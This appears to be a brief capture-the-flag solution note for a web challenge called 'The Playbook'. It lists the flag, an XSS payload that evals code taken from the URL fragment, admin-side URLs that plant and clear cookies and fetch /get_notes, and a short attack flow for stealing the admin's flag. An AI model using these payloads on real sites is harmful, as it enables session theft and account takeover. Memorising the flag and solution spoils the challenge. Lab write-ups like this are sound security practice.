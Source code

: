 Name: The Playbook

Desc: This is going to be Legend ... wait for it ... and I hope you're not lactose-intolerant coz

Flag: inctf{dary_l3g3nd4ry_238397}



<!-- Payload my end
<img src=x onerror=eval(decodeURIComponent(location.hash.substr(1)))></img>
 -->

<!-- Admin Side
http://localhost:3000/find_notes?startsWith=d&debug=y&Set-Cookie=id=f616c83f2f0f188265c7004d81d45723%3B%20path=/get_notes 
-->

<!-- Admin Side
http://localhost:3000/#document.cookie=%22id=68b329da9893e34099c7d8ad5cb9c940;%20expires=Thu,%2001%20Jan%201970%2000:00:00%20UTC;path=/get_notes;%22;document.cookie=x;fetch('/get_notes').then(response=%3Eresponse.text()).then(data=%3Econsole.log(data));
-->

what da flow?

send admin the link --> add your cookie to the panel --> now, load the page --> the payload gets initialised --> delete the user's cookie --> make a fetch to the admin's /get-flag --> all is good as its in the same page